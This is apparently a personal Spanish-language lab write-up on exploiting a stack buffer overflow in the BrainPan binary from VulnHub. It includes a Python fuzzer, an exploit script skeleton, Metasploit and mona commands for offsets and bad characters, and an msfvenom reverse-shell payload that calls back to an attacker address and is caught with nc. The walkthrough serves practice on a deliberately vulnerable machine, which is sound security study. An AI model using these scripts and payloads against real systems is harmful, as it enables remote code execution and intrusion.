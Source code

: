 
----------

-------------

 Instalamos la maquina vulnerable de vulnhub BrainPan

En esta  maquina en concreto encontramos un archivo .exe que nos vamos a compartir hacia la maquina windows 10 (que estoy usando en este caso aunque podria ser una maquina windows7 sin problema), y por ese binario vamos a realizar nuestro bufferoverflow.

Nos vamos a añadir el binario en el escritorio en una carpate llamada BOF y segudio a esto vamos a instalarnos el inmunnity dfebburger que es el programa con el que vamos a ir realizando pruebas para realizar el buffer.

Despues de esto tenemos que ir a mona github descargarlo y llevarnos el archivo.py que nos ha creado a /discoC/archivosdeProgramax86/InmunnityINC/pycomasnds/ y pegarlo ahi para que el Inmunnity lo detecte.

Entramos en el Inmunitty y abrimos el binario BrainPan y le damos al boton de play para ejecutarlo y que ahora dentro de nuestra kali lo podamos ver ejecutandose. Tenemos que ver el puerto 9999
![[Pasted image 20240408230955.png]]

Ahora definimos el directorio Bof que habiamos creado al principio como nuestro directorio acutal de trabajo con el siguiente comando desde el inmunnity.
![[Pasted image 20240408231018.png]]

Para realizar fuzzing deberemos de usar el siguiente script en python3, esto es para conocer en que punto crashea el programa, tenemos que intercambiar la ip por la de la maquina windows esto siempre lo tenemos que estar ejecutando cuando desde el inmunitty estemos corriendo nuestro programa
```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.1.203"
port = 9999
timeout = 1
prefix = ""
string = prefix + "A" * 100
while True:

    try:

        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)
            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)
    except:

        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)

```

El output al ejecutar el programa debe de ser el punto en el que crashea el binario que estamos corriendo en el inmunnity.

![[Pasted image 20240408231045.png]]

Desde el debugger tenemos que ver esto (El EIP, tiene que aparecer de la siguiente manera)
![[Pasted image 20240408231100.png]]

Despues de esto tenemos que obtener el ofsett que es la cantidad de bytes que hay desde el comienzo del buffer hasta donde se ocasiona el desbordamiento. Para ello tenemos que crearnos el siguiente script donde vamos a tener que ir añadiendo parametros lo primero seria la ip y el puerto.
```python
import socket
ip = "192.168.1.203"
port = 9999

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")


```

Despues tenemos que generar una cantidad de bytes mayor a los 600 en este caso que hemos obtenido en el fuzzing que seria el punto donde crashea para ello usaremos el siguiente modulo de metasploit de la siguiente manera 
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
```

Y nos genera lo siguiente:
![[Pasted image 20240408231129.png]]

Y lo añadimos dentro de la variable payload de exploit.py.

Seguido a esto dentro del debugger tenemos que añadir el siguiente comando de !mona y ejecutalo.
![[Pasted image 20240408231147.png]]

Despues de esto volvemos a la maquina kali y lo que tenemos que hacer es correr el exploit.py con los bites añadidos en el payload y nos tiene que dar un resultado similar a este.
![[Pasted image 20240203215902.png]]

Y en el debugger en este caso en el EIP nos da un numero que nos tenemos que copiar 
![[Pasted image 20240203215956.png]]

Y vamos a añadir al siguiente comando de metasploit 
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q <EIP>
```

Con eysto conseguiremos el ofsett que nos lo devolvera este modulo y nos lo tenemos que copiar y añadirlo al script de python que habiamos creado anteriormente. Y en el apartado de retn añadimos 4 B que queda de esta manera.
![[Pasted image 20240203220506.png]]

Ahora desde kali vamos a instalar badchars con pip install badchars.
Con esto instalado usamos el siguiente comando para obtener los badchars
```bas
badchars -f python
```
El resultado nos lo copiamos y lo sustituimos por el payload anterior de la siguiente forma.
![[Pasted image 20240203221026.png]]

Nos vamos al debugger y con mona ejecutamos un comando para que nos genere los badchars
![[Pasted image 20240203221206.png]]

Despues de esto volvemos a ejecutar el exploit y vemos como el programa crashea de nuevo.
Nos copiamos el siguiente dato y lo pegamos abajo del debugger con un comando
![[Pasted image 20240203221407.png]]

```bash
!mona compare -f C:\Users\zunderrub\Desktop\BOF\bytearray.bin -a 005FF910
```

Cuando lo ejecutemos nos saldran badchars que en esta maquina en concreto no hay pero si lo ubiese deberiamos de irnos a nuestro sploit y eliminar los que fuesen iguales del exploit.

Ahora volvemos al debugger y tenemos que volver a ejecutar lo siguiente.
```bash
!mona jmp -r esp -cpb "\x00"
```

Nos deberia de aparecer lo siguiente
![[Pasted image 20240203222148.png]]

De ahi tenemos que seleccionar el numero que hay arriba de las letras de color rojo

Lo copiamos y lo añadimos pulsando el boton negro que hay en el debugger en el siguiente desplegable.
![[Pasted image 20240203222405.png]]

Al ejecutar esto una de las lineas se habra puesto de color azul y a su izquierda tiene un numero que es otro pinted que nos tenemos que llevar a nuesto kali y sustituir en el exploit por el retn que teniamos antes. Y lo modificamos tal que quede de la siguiente forma.

![[Pasted image 20240203222803.png]]

Y segido a eso ese numero lo invertimos tal que quede de esta manera.
![[Pasted image 20240203223156.png]]

Y el padding debe de quedar asi.
![[Pasted image 20240203223252.png]]

Ahora con msfvenom debemos de generar un shellcode de la siguiente manera.
```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.237 LPORT=443 EXITFUNC=thread -b "\x00" -f c
```

Y todo el resultado de este shelcode lo añadimos en el exploit a la variable payload sustituyendolo por lo anterior borrando el ; final y aparte de todo esto tambien hay que modificar la ip de la maquina windows por la ip ahora ya de nuestra maquina victima final.

Ejecutamos el exploit y de la otr parte nos ponemos en escucha con nc por el puerto que le indicamos en el shellcode. Y al ejecutarlo deberiamos de obtener nuestra reverse shell hacia nuestra maquina victima.

![[Pasted image 20240203224102.png]]
